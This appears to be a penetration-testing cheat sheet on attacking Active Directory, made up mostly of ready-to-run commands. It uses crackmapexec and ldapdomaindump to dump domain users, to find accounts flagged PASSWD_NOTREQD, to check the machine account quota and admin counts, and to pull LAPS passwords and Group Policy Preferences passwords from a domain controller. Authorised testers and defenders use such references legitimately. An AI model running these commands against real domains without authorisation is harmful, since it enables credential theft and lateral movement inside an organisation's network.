 ### Active Directory user and computer account description
Using crackmapexec to get active directory user description
```
crackmapexec ldap 10.10.0.10 -u jdoe -p Pass1234 -d company.com -M get-desc-users
```

--> It is also extremely important to check for computer account description, as computer account are just AD object with description attribute.

### Resetting expired passwords remotely
- https://www.n00py.io/2021/09/resetting-expired-passwords-remotely/

### PASSWD_NOT_REQD
If PASSWD_NOTREQD user-Account-Control Attribute Value bit is set then No password is required.  

1) First collect the information from the domain controller:
```
python ldapdomaindump.py -u example.com\\john -p pass123 -d ';' 10.100.20.1
```

2) Once the dumping is done, get the list of users with the PASSWD_NOTREQD flag using the following command:
```
grep PASSWD_NOTREQD domain_users.grep | grep -v ACCOUNT_DISABLED | awk -F ';' '{print $3}'
```

Reset password of users who have PASSWD_NOTREQD flag set and have never set a password:
```
Get-ADUser -Filter "useraccountcontrol -band 32" -Properties PasswordLastSet | Where-Object { $_.PasswordLastSet -eq $null } | select SamAccountName,Name,distinguishedname | Out-GridView
```

### Machine Account Quota
Identify machine account quota domain attribute:
```
crackmapexec ldap 192.168.0.10 -u jdoe -H XXXXXX:XXXXXXX -M MAQ --kdcHost corp.company.local
```

```
Get-ADObject -Identity ((Get-ADDomain).distinguishedname) -Properties ms-DS-MachineAccountQuota
```

### LAPS / LAPS bypass
Retrieving LAPS passwords using Crackmapexec
```
crackmapexec ldap 192.168.0.10 -u jdoe -H XXXXX:XXXXX -M laps --kdcHost corp.company.local
```

### Admin Count
```
crackmapexec ldap company.com -u 'jdoe' -p 'Pass1234' -d company.com --admin-count
```

### Checking GPP passwords
- https://pentestlab.blog/tag/gpp/
Using crackmapexec GPP module
```
crackmapexec smb 10.10.0.10 -u jdoe -p Pass1234 -d company.com -M gpp_password
```
